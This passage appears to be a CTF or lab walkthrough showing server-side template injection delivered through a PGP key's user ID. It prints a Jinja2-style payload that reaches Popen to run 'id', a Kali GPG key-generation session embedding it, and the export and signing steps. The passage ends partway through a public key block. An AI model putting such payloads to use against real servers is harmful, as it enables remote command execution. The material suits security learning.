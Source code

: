 ```shell
{ {''.__class__.__base__.__subclasses__()[439]('id', shell=True, stdout=-1).communicate()} }
```

This payload instructs the application to run the `id` command on the server using the `Popen` function.

```shell
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ gpg --gen-key                                                    
gpg (GnuPG) 2.2.40; Copyright (C) 2022 g10 Code GmbH
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Note: Use "gpg --full-generate-key" for a full featured key generation dialog.

GnuPG needs to construct a user ID to identify your key.

Real name: { {''.__class__.__base__.__subclasses__()[439]('id', shell=True, stdout=-1).communicate()} }
Email address: curiosity@hacksfor.fun
You selected this USER-ID:
    "{ {''.__class__.__base__.__subclasses__()[439]('id', shell=True, stdout=-1).communicate()} } <curiosity@hacksfor.fun>"

Change (N)ame, (E)mail, or (O)kay/(Q)uit? O
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
gpg: revocation certificate stored as '/home/kali/.gnupg/openpgp-revocs.d/6893F090D1B83FB46E552699F8E6CA0320DC7F83.rev'
public and secret key created and signed.

pub   rsa3072 2023-11-04 [SC] [expires: 2025-11-03]
      6893F090D1B83FB46E552699F8E6CA0320DC7F83
uid                      { {''.__class__.__base__.__subclasses__()[439]('id', shell=True, stdout=-1).communicate()} } <curiosity@hacksfor.fun>
sub   rsa3072 2023-11-04 [E] [expires: 2025-11-03]
```

- **Export Public Key and Sign Message**: After modifying the payload, we exported the public key and created a signed message using the manipulated key. This would ensure that our payload is executed when the signed message is processed by the server.

```shell
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ gpg --export --armor curiosity@hacksfor.fun > curiosity.pub      
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ gpg --clear-sign --default-key curiosity@hacksfor.fun example.txt
gpg: using "curiosity@hacksfor.fun" as default secret key for signing
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ cat curiosity.pub  
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQGNBGVGVLwBDAC42HwrzaxWzMoRVZW6IXEGBwRbLYojsC1JiTThLuu7p92QtvTC
567yT0n6CCJHgNXSpuL2OnNQ4ARVTLgax6S7FadWK8mcob8r/3u7U+ixzOgzArjo
Xe/9nbCbpTB1DGD1QJL+ebxPWtH8kstU+wfvh+AmuH8yylKZFyFYIC6TuUeQ6wNT
gfblvqNZiAl49uzpR7myiqWuAjPwCc4sowaKM449xt23ltHir8RUsLZmDSsVODpT
AFSXmwZwfrRBgLmoDUUE2+zlXtB3dcRVMrnfxODh7YW4nxkoqobTP6/ofJWDiqka
```